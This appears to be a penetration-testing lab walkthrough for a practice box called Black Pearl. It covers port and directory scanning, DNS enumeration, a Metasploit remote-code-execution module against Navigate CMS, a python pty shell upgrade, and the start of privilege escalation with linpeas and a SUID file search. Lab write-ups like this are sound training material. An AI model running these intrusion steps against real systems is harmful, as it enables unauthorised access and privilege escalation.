



## Nmap:

I have runned same again nmaps scan

```bash
nmap -T4 -p- -A 192.168.100.131
```


### Analyzing Scan Results:

- Port:
	- 22: SSH - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
	- 80: HTTP - nginx 1.14.2

## Port 80

We got a default webpage.


I'm going to run FuFF and Gobuster to find extera directorys.

gobuster dir -u http://192.168.100.131:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.tx


I have found a /secret directory.


In the page source i have found a e-mail adres.

alek@blackpearl.tcm


## Port 53

Here I'm gonna use a tool dnsrecon

```bash
dnsrecon -r 127.0.0.0/24 -n 192.168.100.128 -d blah
```

- dnsrecon
- -r this is for our range
- 127.0.0.0/24 we gonna scan our localhost machine
- -n ip adres of te box we are looking for
- -d is needed for our domain


We can see now under http://blackpearl.tcm/


Im gonna use Fuzz one more time to see if we can get more information
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
```


We can se a /navigate directory now. We get a login screen website.


### Metasploit

I'm going use this exploit from https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/

```bash
msf > use exploit/multi/http/navigate_cms_rce
```


We need to set RHOST and VHOST
```
set RHOSTS 192.168.100.131
set VHOST blackpearl.tcm
```


We can run this exploit


We need to get better shell on this machine.
We can do this with python script if python is on the machine
With command:
```bash
which python
```

We can see python on the machine


We can paste now this script:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


### Privilage Escalation

We need now to get root on this machine So, I decided to get linpeas to do it for me

I have started http server on my attack machine to send linpeas





Now to be able to run linpeas, input the command:


When looking through linpeas, we majorly focus on anything with the colour red or yellow.

For this particular box, we are majorly focusing on the **s** we can see highlighted in the image above.  
Now if you are familiar with permissions, you'd know we are supposed to have just r-w-x which stands for read, write and execute respectively.

But in the space permission for root we are seeing **S** which means we can run the binary as root and abuse the feature.

Input the command below to see all the permissions we can run as root and abuse in a much cleaner setting:
```bash
find / -type f -perm -4000 2>/dev/null
```
